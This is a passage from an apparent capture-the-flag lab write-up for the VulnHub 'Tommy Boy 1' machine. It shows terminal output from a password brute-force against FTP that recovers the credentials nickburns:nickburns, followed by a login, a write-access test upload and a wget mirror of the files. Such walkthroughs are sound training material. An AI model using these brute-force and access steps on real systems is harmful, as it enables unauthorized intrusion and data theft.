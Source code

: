 	[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
	[DATA] attacking ftp://192.168.56.129:65534/
	[65534][ftp] host: 192.168.56.129   login: nickburns   password: nickburns
	1 of 1 target successfully completed, 1 valid password found
	```
	- nickburns:nickburns

## TCP/65534 (FTP)
1. Access FTP w/ nickburns:nickburns, check for write access
	```
	┌──(root💀kali)-[~/vulnHub/TommyBoy1/192.168.56.129/loot/ftp]
	└─# ftp -nv $ip 65534
	Connected to 192.168.56.129.
	220 Callahan_FTP_Server 1.3.5
	ftp> user nickburns
	331 Password required for nickburns
	Password: 
	230 User nickburns logged in
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> put test 
	local: test remote: test
	200 PORT command successful
	150 Opening BINARY mode data connection for test
	226 Transfer complete
	ftp> dir
	200 PORT command successful
	150 Opening ASCII mode data connection for file list
	-rw-rw-r--   1 nickburns nickburns      977 Jul 15  2016 readme.txt
	-rw-r--r--   1 nickburns nickburns        0 Jan 18 08:10 test
	226 Transfer complete
	ftp> 
	```
	- We have write access
2. Download all files
	```
	┌──(root💀kali)-[~/vulnHub/TommyBoy1/192.168.56.129/loot/ftp]
	└─# wget -m --no-passive ftp://nickburns:nickburns@$ip:65534
	--2022-01-18 16:44:57--  ftp://nickburns:*password*@192.168.56.129:65534/
			   => ‘192.168.56.129:65534/.listing’
	Connecting to 192.168.56.129:65534... connected.
	Logging in as nickburns ... Logged in!
	```
3. View `readme.txt`